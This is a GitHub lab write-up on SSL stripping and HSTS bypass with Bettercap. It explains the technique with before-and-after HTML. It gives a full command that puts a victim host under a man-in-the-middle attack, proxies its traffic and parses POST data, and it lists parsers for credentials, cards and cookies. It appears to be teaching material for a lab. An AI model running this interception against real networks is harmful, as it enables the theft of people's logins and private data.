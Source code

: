 
##    Bettercap - SSL Stripping + HSTS Bypass   

https://www.youtube.com/watch?v=6hgfumOYizY

Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.1.10  |
|                  |         ------------------
|                  |         ------------------
|   192.168.1.1    |---------|     Victim     |
|                  |         |  192.168.1.15  |
--------------------         ------------------
```
1. Introduction

####    SSL Stripping      

SSL stripping is a technique introduced by Moxie Marlinspike during BlackHat DC 2009. Generally speaking, this technique will replace every 'https' link in webpages the target is browsing with 'http' ones so, if a page would normally look like:
```
... <a href="https://www.facebook.com/">Login</a> ...
```
During a SSL stripping attack its HTML code will be modified as:
```
... <a href="http://www.facebook.com/">Login</a> ...
```
Being the man in the middle, this allow us to sniff and modify pages that normally we wouldn't be able to even see.

####   HSTS Bypass

SSL stripping worked quite well until 2010, when the HSTS specification was introduced. Wikipedia says that:

"HTTP Strict Transport Security (HSTS) is a web security policy mechanism which helps to protect websites against protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers (or other complying user agents) should only interact with it using secure HTTPS connections, and never via the insecure HTTP protocol. HSTS is an IETF standards track protocol and is specified in RFC 6797."

Moreover HSTS policies have been prebuilt into major browsers meaning that now, even with a SSL stripping attack running, the browser will connect to HTTPS anyway, even if the http:// schema is specified, making the attack itself useless.

For this reason, Leonardo Nve Egea presented sslstrip+ (or sslstrip2) during BlackHat Asia 2014. This tool was an improvement over the original Moxie's version, specifically created to bypass HSTS policies. Since HSTS rules most of the time are applied on a per-hostname basis, the trick is to downgrade HTTPS links to HTTP and to prepend some custom sub domain name to them. Every resulting link won't be valid for any DNS server, but since we're MITMing we can resolve these hostnames anyway.

Let's take the previous example page:
```
... <a href="https://www.facebook.com/">Login</a> ...
```
A HSTS bypass attack will change it to something like:
```
... <a href="http://wwwwww.facebook.com/">Login</a> ...
```
Notice that `https` has been downgraded to `http` and `www` replaced with `wwwwww`

When the "victim" will click on that link, no HSTS rule will be applied (since there's no rule for such subdomain we just created) and the MITM software (Bettercap in our case ^_^) will take care of the DNS resolution, allowing us to see and alter the traffic we weren't supposed to see.

References:

https://www.bettercap.org/legacy/index.html#http

2. Using Bettercap to conduct SSL Stripping + HSTS Bypass
```
# sudo bettercap -I eth0 -X --gateway 192.168.1.1 --target 192.168.1.15 --proxy --parsers POST
```
- On victim machine, use specific credentials as follows:

* For AIS Moodle website:
```
Username: AIS_Moodle_Username
Password: AIS_Moodle_Password
```
- Let's have a look at traffic sniffed from Bettercap

* For Twitter website:
```
Username: AIS_Twitter_Username
Password: AIS_Twitter_Password
```
- Let's have a look at traffic sniffed from Bettercap

* Comma separated list of available packet parsers to enable: COOKIE, CREDITCARD, DHCP, DICT, FTP, HTTPAUTH, HTTPS, IRC, MAIL, MPD, MYSQL, NNTP, NTLMSS, PGSQL, POST, REDIS, RLOGIN, SNMP, SNPP, URL, WHATSAPP...

